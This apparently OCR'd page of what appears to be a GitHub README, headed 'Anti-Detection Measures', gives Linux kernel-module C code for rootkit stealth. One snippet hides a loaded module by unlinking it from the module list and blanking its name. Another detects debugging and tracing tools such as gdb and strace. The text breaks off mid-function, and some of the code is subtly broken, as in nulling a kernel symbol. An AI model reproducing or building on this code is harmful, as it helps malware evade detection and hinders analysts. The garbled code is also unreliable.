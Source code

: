 
## 🛡️ Anti-Detection Measures

### 1. **Module Stealth**

#### Hide Kernel Module
```c
// module_stealth.c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/list.h>

// Hide module from /proc/modules
static void hide_module_from_proc(void) {
    // Remove from module list
    list_del_init(&THIS_MODULE->list);
    
    // Clear module name
    memset(THIS_MODULE->name, 0, sizeof(THIS_MODULE->name));
    
    // Hide from kallsyms
    kallsyms_lookup_name = NULL;
}

// Restore module visibility
static void restore_module_visibility(void) {
    // Re-add to module list
    list_add(&THIS_MODULE->list, &modules);
    
    // Restore module name
    strcpy(THIS_MODULE->name, "stealth_module");
}
```

### 2. **Anti-Analysis Protection**

#### Detect Analysis Tools
```c
// anti_analysis.c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/sched.h>

// Check for analysis tools
static bool detect_analysis_tools(void) {
    struct task_struct *task;
    
    for_each_process(task) {
        if (strstr(task->comm, "gdb") ||
            strstr(task->comm, "strace") ||
            strstr(task->comm, "ltrace") ||
            strstr(task->comm, "valgrind")) {
            return true;
        }
    }
    
    return false;
}

// Anti-debugging measures
static void install_anti_debug_protection(void) {
```